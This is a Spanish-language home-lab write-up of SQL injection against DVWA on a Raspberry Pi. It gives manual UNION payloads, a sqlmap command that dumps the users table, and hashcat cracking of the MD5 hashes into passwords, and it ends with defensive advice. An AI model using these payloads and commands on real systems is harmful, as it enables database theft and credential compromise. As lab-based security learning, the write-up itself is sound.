


# Writeup 01 — SQL Injection en DVWA + crackeo de hashes

**Categoría:** Web / Ofensivo
**Objetivo:** DVWA (Damn Vulnerable Web Application) en Docker, sobre mi Raspberry Pi 5
**Herramientas:** navegador, sqlmap 1.9.6, hashcat 6.2.6
**Nivel de seguridad de DVWA:** `low`

> ⚠️ Todo esto se hizo en **mi laboratorio aislado**, contra una aplicación vulnerable que instalé yo mismo para practicar. Nunca contra sistemas de terceros.

---

## 🧪 El entorno

DVWA corre en contenedores Docker en mi Raspberry Pi 5, junto a Pi-hole. La app está publicada en el puerto `8080`:

```
deivid@raspberrypi:~ $ docker ps -a
CONTAINER ID   IMAGE                           STATUS         PORTS                       NAMES
142a48145d73   ghcr.io/digininja/dvwa:latest   Up 22 hours    0.0.0.0:8080->80/tcp        dvwa
ed18a14024bb   mariadb:10                      Up 22 hours    3306/tcp                    dvwa-db
c6fc7a9fba89   pihole/pihole:latest            Up 22 hours    0.0.0.0:53->53, 8081->80    pihole
```

- **Front:** Apache 2.4.68 + PHP 8.5.11 (contenedor `dvwa`)
- **Base de datos:** MariaDB 10 (contenedor `dvwa-db`)
- **URL del reto:** `http://10.0.0.62:8080/vulnerabilities/sqli/` (la IP de mi Pi en la LAN)

---

## 🎯 Objetivo del reto

Explotar una **inyección SQL** en el formulario "User ID" de DVWA para:
1. Confirmar que la entrada no se valida.
2. Extraer la tabla de usuarios (`dvwa.users`).
3. Recuperar las contraseñas crackeando los hashes MD5 obtenidos.

---

## 1. Entendiendo la vulnerabilidad (inyección manual)

El formulario expone un campo "User ID" que se mete directamente en una consulta SQL. Antes de automatizar, conviene entender qué pasa por debajo.

**Prueba básica** — ¿es inyectable?

```sql
1' OR '1'='1
```

Devuelve **todos** los usuarios en vez de uno → la condición `WHERE` se puede manipular. Es vulnerable.

**¿Cuántas columnas?** — necesario para usar `UNION`:

```sql
1' ORDER BY 1 -- -
1' ORDER BY 2 -- -
1' ORDER BY 3 -- -   ← error aquí
```

El error en `3` indica **2 columnas**.

**Extraer usuario y hash con UNION:**

```sql
1' UNION SELECT user, password FROM users -- -
```

Con eso ya se saca la lista de usuarios y sus hashes. Luego lo confirmé y automaticé todo con sqlmap.

---

## 2. Automatizar con sqlmap

Lanzo sqlmap contra el parámetro `id`, pasándole mi cookie de sesión y apuntando directo a la tabla `users` de la base `dvwa`:

```bash
sqlmap -u "http://10.0.0.62:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<tu-cookie-de-sesión>; security=low" \
  --batch -D dvwa -T users --dump
```

> 🔐 No publico la cookie de sesión real: es un token vivo. En el laboratorio la saco de las DevTools del navegador (*Application → Cookies*).

**Qué hace cada parte:**
- `-u` → la URL vulnerable
- `--cookie` → sqlmap necesita estar "logueado" en DVWA (por eso la cookie + `security=low`)
- `--batch` → responde que sí a todo automáticamente
- `-D dvwa -T users --dump` → vuelca la tabla `users` de la base `dvwa`

sqlmap confirma que `id` es inyectable por **cuatro** técnicas distintas y detecta el motor:

```
Parameter: id (GET)
    Type: boolean-based blind
    Type: error-based (FLOOR)
    Type: time-based blind
    Type: UNION query (2 columns)

back-end DBMS: MySQL >= 5.0 (MariaDB fork)
web application technology: Apache 2.4.68, PHP 8.5.11
```

Y vuelca la tabla completa. Al reconocer que las contraseñas son MD5, sqlmap incluso las crackea con su diccionario interno:

```
Database: dvwa
Table: users
[5 entries]
+---------+---------+---------------------------------------------+
| user_id | user    | password                                    |
+---------+---------+---------------------------------------------+
| 1       | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| 2       | gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 3       | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| 4       | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| 5       | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------+---------------------------------------------+
```

> 📸 

---

## 3. Crackeo de hashes con hashcat

Para practicar el paso de crackeo "a mano", guardo los hashes únicos en un archivo y los ataco con **hashcat** usando el diccionario **rockyou** (14.344.391 palabras):

```bash
hashcat -m 0 -a 0 solo_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Qué hace cada parte:**
- `-m 0` → tipo de hash: MD5
- `-a 0` → ataque por diccionario
- `rockyou.txt` → diccionario de contraseñas filtradas reales

Resultado: **4/4 hashes crackeados en menos de un segundo**, a ~2.100 kH/s (CPU de la Pi 5, backend PoCL/OpenCL):

```
5f4dcc3b5aa765d61d8327deb882cf99:password
e99a18c428cb38d5f260853678922e03:abc123
0d107d09f5bbe40cade3de5c71e9e9b7:letmein
8d3533d75ae2c3966d7e0d4fcc69216b:charley

Status...........: Cracked
Hash.Mode........: 0 (MD5)
Recovered........: 4/4 (100.00%) Digests
Speed.#1.........: 2098.9 kH/s
```

Para ver los resultados ya crackeados en cualquier momento:

```bash
hashcat -m 0 --show solo_hashes.txt /usr/share/wordlists/rockyou.txt
```

> 📸 

**Credenciales recuperadas:**

| Usuario | Contraseña |
|---------|------------|
| admin   | `password` |
| gordonb | `abc123`   |
| 1337    | `charley`  |
| pablo   | `letmein`  |
| smithy  | `password` |

---

## 🧠 Qué aprendí

- **La causa raíz** de la inyección SQL es construir la consulta concatenando la entrada del usuario sin separarla del código SQL.
- **Cómo pensar la explotación por pasos:** confirmar → contar columnas → extraer con UNION → automatizar con sqlmap.
- Que una misma entrada vulnerable puede explotarse por **varias técnicas** (boolean-based, error-based, time-based, UNION).
- Llegar a la base de datos no es el final: los **hashes MD5 sin *salt*** caen en segundos contra un diccionario como rockyou, incluso en la CPU de una Raspberry Pi. Dos usuarios (`admin` y `smithy`) comparten el mismo hash → la misma contraseña, otra señal de un esquema débil.

## 🛡️ Cómo se defiende esto

- **Consultas parametrizadas / prepared statements** — nunca concatenar la entrada del usuario. Es *la* defensa principal contra SQLi.
- **Validación y saneamiento** de la entrada (defensa en profundidad, no sustituto de lo anterior).
- **Mínimo privilegio** en la cuenta de base de datos de la aplicación.
- Para contraseñas: nunca MD5. Usar algoritmos lentos y con *salt* como **bcrypt**, **scrypt** o **Argon2**.
- Un **WAF** ayuda a frenar ataques automáticos, pero no arregla el fallo de fondo.

---

*Writeup realizado en mi home lab · DVWA en Docker · Raspberry Pi 5*
